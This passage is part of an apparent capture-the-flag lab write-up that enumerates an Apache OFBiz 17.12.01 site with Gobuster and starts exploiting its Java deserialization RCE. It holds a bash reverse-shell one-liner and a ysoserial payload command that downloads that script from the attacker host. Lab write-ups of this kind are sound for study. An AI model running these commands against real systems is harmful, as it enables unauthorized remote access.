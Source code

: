 The port can now be accessed via HTTPS on our localhost on port 8443.
The website shows an HTTP status code _404 Not Found_, so lets search for hidden directories with **Gobuster**:
```
gobuster -u https://localhost:8443 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It finds different directories, but most of them forward to the login of **Apache OFBiz**:
- _/marketing_
- _/ecommerece_
- _/accounting_
- _/webtools_

![Apach OFBiz page](monitors_web-3.png)

The application [Apache OFBiz](https://ofbiz.apache.org/) is an open-source Enterprise Resource Planning (ERP) system, that uses **Java** in the background.
The footer shows that it runs version 17.12.01 from March 2020, so it could have vulnerabilities:
```
searchsploit ofbiz

ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)
```

There is a **Remote Code Execution** vulnerability that can be abused with **Java Deserialization** as explained in this [repository from Vulhub](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496).

Creating a reverse shell script _shell.sh_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9002 0>&1'
```

Generating a payload with [ysoserial](https://github.com/frohoff/ysoserial) to download the bash script:
```
java -jar ysoserial.jar CommonsBeanutils1 "curl 10.10.14.2/shell.sh -o /tmp/shell.sh" | base64 | tr -d "\n"
```
